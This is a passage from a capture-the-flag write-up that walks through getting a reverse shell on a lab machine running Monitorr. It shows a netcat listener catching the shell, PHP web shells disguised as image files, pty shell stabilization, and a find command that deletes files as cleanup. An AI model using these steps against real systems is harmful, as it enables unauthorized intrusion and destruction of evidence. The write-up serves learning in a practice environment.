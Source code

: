 [Back to top](#contents) ⤴

## Execution

After the script is prepared, and it is verified that it is indeed uploading, we are making ourselves a nice reverse shell with the `netcat`.

```sh
$ nc -lvnp 443

listening on [any] 443 ...
```

After the reverse shell is requested:

```text
$ nc -lvnp 443

listening on [any] 443 ...
connect to [XX.XX.XX.XXX] from (UNKNOWN) [10.10.184.247] 59024
/bin/sh: 0: can't access tty; job control turned off
$ ls
file.png.php
file.png.php5
file2.png.php
file3.png.php
file4.gif.php
file4.png.php
file5.gif.php
file6.gif.php
file7.gif.php
file8.gif.php
she_ll2.gif
usrimg.png
```

We're in!

Time for stabilizing the shell a bit (I didn't find the way to fully stabilize `zsh` shell yet) and clean up.

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
find . -type f -not -name '*.png' -delete
alias ls="ls -lah"
```

Let's look around a bit.

[Back to top](#contents) ⤴

# www-data access

```sh
/www-data@petshop:/var/www/monitorr$ ls -la
ls -la
total 184
drwxr-xr-x  4 www-data www-data  4096 Apr 11 14:24 .
drwxr-xr-x  5 root     root      4096 Apr 30 16:12 ..
-rw-r--r--  1 www-data www-data   355 Apr 11 00:07 ISSUE_TEMPLATE.md
-rw-r--r--  1 www-data www-data  1086 Apr 11 00:07 LICENSE.txt
-rw-r--r--  1 www-data www-data  5086 Apr 11 00:07 README.md
-rw-r--r--  1 www-data www-data    25 Apr 11 00:07 _config.yml
drwxr-xr-x 11 www-data www-data  4096 Apr 11 00:07 assets
-rw-r--r--  1 www-data www-data  4655 Apr 11 14:20 changelog.html
drwxr-xr-x  2 www-data www-data  4096 Apr 11 00:11 data
-rw-r--r--  1 www-data www-data   915 Apr 11 00:11 datamonitorr_data_directory.txt
-rw-r--r--  1 www-data www-data    52 Apr 11 00:11 datamonitorr_install_path.txt
```